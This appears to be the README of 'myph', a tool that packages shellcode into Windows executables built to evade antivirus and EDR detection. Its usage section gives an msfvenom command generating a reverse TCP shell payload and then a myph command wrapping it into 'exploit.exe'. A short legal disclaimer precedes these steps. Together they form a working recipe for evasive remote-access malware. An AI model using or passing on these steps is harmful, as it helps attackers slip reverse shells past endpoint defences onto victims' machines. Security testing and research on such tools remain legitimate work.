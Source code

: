 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## Usage

This tool uses the CRT method. If you don't know what that is, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=80 -f raw -o msf.raw

# run myph
./myph --shellcode msf.raw --outfile exploit.exe
```
